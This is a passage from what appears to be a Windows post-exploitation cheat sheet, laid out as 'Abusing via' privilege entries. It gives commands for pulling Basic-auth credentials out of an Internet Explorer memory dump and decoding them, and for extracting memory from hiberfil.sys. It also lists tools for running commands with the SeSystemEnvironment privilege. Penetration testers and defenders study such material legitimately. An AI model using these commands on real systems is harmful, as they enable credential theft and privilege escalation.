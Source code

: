 and select "Create Dump File" from the popup menu.

3\.

strings /root/Desktop/iexplore.DMP \| grep \"Authorization: Basic\"

Select the Copy the Base64 encoded string.

In command prompt type: echo -ne \[Base64 String\] \| base64 -d

<a name="abusing-via-secreatepagefile"></a>
# Abusing via SeCreatePagefile

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

HIBR2BIN /PLATFORM X64 /MAJOR 6 /MINOR 1 /INPUT hiberfil.sys /OUTPUT
uncompressed.bin

<a name="abusing-via-sesystemenvironment"></a>
# Abusing via SeSystemEnvironment 

Domain: No

Local Admin: Yes

OS: Windows

Type: Abuse Privilege

Methods:

1\.

.load C:\\dev\\PrivEditor\\x64\\Release\\PrivEditor.dll

2\.

TrustExec.exe -m exec -c \"whoami /priv\" -f

<a name="abusing-via-setakeownership"></a>
# Abusing via SeTakeOwnership 

Domain: No

Local Admin: Yes

OS: Windows
